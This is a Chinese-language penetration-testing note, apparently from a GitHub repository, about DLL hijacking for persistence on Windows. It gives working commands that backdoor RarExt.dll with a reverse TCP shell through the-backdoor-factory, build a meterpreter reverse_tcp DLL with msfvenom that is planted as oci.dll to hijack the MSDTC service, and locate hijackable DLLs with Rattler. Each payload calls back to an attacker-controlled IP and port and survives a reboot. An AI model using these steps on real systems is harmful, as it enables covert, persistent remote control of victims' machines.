 #### 劫持1
	注册表
	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls下添加 "lpk.dll"(若无，自己创建)
	ExcludeFromKnownDlls可使KnownDLLs失效
	需要重新启动电脑
	查找可劫持的DLL：
	1.启动程序
	2.使用Process Explorer查看该应用程序启动后加载的DLL。
	3.从已经加载的DLL列表中，查找在上述“KnownDLLs注册表项”中不存在的DLL。
	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
	4.编写第三步中获取到的DLL的劫持DLL。
	5.将编写好的劫持DLL放到该应用程序目录下，重新启动该应用程序，检测是否劫持成功。
![image](/assets/Pentest_Note/master/img/467.png)

	Explorer.exe启动调用winrar文件夹的RarExt.dll
	Msf监听
![image](/assets/Pentest_Note/master/img/468.png)

	复制dll文件到the-backdoor-factory文件夹中，加载恶意dll进原dll
	>python backdoor.py -f RarExt.dll -s reverse_shell_tcp_inline -P 12138 -H 192.168.0.107 指定为kali监听的IP和端口
![image](/assets/Pentest_Note/master/img/469.png)

	生成好的dll在backdoored文件夹，传入靶机中，替换原dll文件，最好把原dll保存备份。
	每次打开windows资源管理器的时候，即可上线。重启可维持
![image](/assets/Pentest_Note/master/img/470.png)
#### 劫持2
	使用
	https://github.com/coca1ne/DLL_Hijacker
	https://github.com/git20150901/DLLHijack_Detecter
	查看要劫持的DLL的函数导出表，会直接生成cpp源码，重编译指向恶意代码
	DLLHijack_Detecter可查看程序加载的不在KnownDLLs中的DLL
#### MSDTC服务劫持
	服务名称MSDTC,显示名称Distributed Transaction Coordinator
	对应进程msdtc.exe,位于%windir%system32
	C:\Windows\System32\wbem\
	服务启动搜索注册表位置计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\MSDTC\MTxOCI
	#msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.51 LPORT=4444 -f dll -o /var/www/html/oci.dll
	Oci.dll放入c:\windows\system32\
	重启服务即可
	>taskkill /f /im msdtc.exe
#### Rattler
	自动化查找可劫持的DLL
	https://github.com/sensepost/rattler
	使用
	>Rattler_x64.exe calc.exe 1
	会列出可被劫持的DLL
![image](/assets/Pentest_Note/master/img/471.png)

	按程序读取DLL位置顺序，把恶意DLL放入程序同目录后，执行程序即可。
![image](/assets/Pentest_Note/master/img/472.png)
![image](/assets/Pentest_Note/master/img/473.png)